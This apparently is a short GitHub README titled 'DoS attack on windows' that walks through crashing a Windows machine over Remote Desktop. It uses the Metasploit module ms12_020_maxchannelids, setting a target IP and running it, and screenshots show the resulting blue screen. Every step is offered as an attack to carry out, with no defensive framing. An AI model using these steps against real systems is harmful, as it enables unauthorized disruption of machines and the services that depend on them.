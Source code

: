 # DoS attack on windows
 
 - Attack in the Remote Desktop Protocol (RDP)

 - to work, is necessary allow remote assistance invitations to be sent from your target machine


 ### Starting attack

  - First: You need have de IP to your target on your hands

  - Do the exploit typing  ``` use auxiliary/dos/windows/rdp/ms12_020_maxchannelids ```
    ![Alt text](./exploit.png "Optional title")

  - set rhosts ``` IP_TARGER ```
    ![Alt text](./config.png "Optional title")

  - ``` run ```

   ### Result

   ![Alt text](./run.png "Optional title")

  ![Alt text](./blueScreen.png "Optional title")